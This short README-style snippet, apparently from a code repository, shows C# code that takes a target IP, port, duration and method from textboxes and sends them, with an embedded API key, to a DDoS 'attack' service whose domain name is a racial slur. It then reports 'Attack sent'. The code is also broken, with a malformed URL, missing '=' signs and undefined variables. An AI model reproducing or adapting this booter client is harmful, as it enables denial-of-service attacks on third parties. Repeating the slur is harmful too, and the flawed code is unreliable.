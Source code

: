 # How-To-String-A-API-In-C-
Making A Api In C#


So Here Are Two Ways

//Creating the string by grabbing the data from the textbox and importing it into our link

string IPAddress = ({YourIptextbox}.text);
string Port = ({YourPorttextbox}.text);
string Time = ({YourTimetextbox}.text);
string Method = ({YourMethodtextbox}.text);

WebClient wc = new WebClient { }; wc.DownloadString($"https:nigger-api.com/api/api.php?key=XMiHDIaf1Zwvv5BqL&host={IPAddress}&port={Port}&time{Time}&method{Method}");
MessageBox.Show($"Attack sent to {ip} using port {port} for {time} Second/s");

//
//Or To Make It Easier

WebClient wc = new WebClient { }; wc.DownloadString($"https:nigger-api.com/api/api.php?key=XMiHDIaf1Zwvv5BqL&host={IPAddress.text}&port={Port.text}&time{Time.text}&method{Method.text}");
MessageBox.Show($"Attack sent to {ip} using port {port} for {time} Second/s");

// So Now All Your Doing Instead Of Making A String Your Just Grabbing And Importing The Data Besides Making A Varible.

//Credits Yully
